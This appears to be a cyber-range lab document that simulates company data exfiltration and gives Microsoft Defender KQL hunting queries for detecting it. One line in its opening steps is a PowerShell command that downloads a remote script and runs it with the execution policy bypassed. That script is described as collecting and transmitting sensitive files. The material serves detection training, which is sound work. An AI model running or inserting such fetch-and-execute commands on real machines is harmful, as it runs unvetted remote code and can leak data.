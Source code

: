 # Threat Event (Exfiltration of Company Data)
**Use of Powershell to run "Malicious" script**

## Steps the "Bad Actor" took Create Logs and IoCs:
1. Execute the following code in Powershell:
   Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1' -OutFile 'C:\programdata\exfiltratedata.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\exfiltratedata.ps1

## What this script does:
- exfiltratedata.ps1 is a PowerShell script designed to simulate data exfiltration for cybersecurity training and testing. It demonstrates how sensitive files might be collected and transmitted by an attacker. Intended for use in controlled environments only.
---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used for detection of archival software execution. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect the silent installation of 7zip as well as execution of exfiltratedata.ps1 powershell script.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to determine if any data has been exfiltrated from the network.|

---

## Related Queries:
```kql
// Look for any kind of archive activity
let archive_applications = dynamic(["winrar.exe", "7z.exe", "winzip32.exe", "peazip.exe", "Bandizip.exe", "UniExtract.exe", "POWERARC.EXE", "IZArc.exe", "AshampooZIP.exe", "FreeArc.exe"]);
let VMName = "windows-target-1";
DeviceProcessEvents
| where FileName has_any(archive_applications)
| order by Timestamp desc


// Look for any file activity, based on the Timestamp from any discovered process activity
let specificTime = datetime(2024-10-15T19:00:48.5615171Z);
let VMName = "windows-target-1";
DeviceFileEvents
| where Timestamp between ((specificTime - 1m) .. (specificTime + 1m))
| where DeviceName == VMName
| order by Timestamp desc


// Look for any network activity, based on the Timestamp from the process or file activity
let VMName = "windows-target-1";
let specificTime = datetime(2024-10-15T19:00:48.5615171Z);
DeviceNetworkEvents
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where DeviceName == VMName
| order by Timestamp desc


```

---

## Created By:
- **Author Name**: Jordan West
- **Author Contact**: https://www.linkedin.com/in/jordan-west-it/
- **Date**: April 15, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial Draft                 |'September 6, 2024'| 'Josh Madakor' |
| 2.0         | Updated draft                 | `April 16, 2025`  | `Jordan West`   |

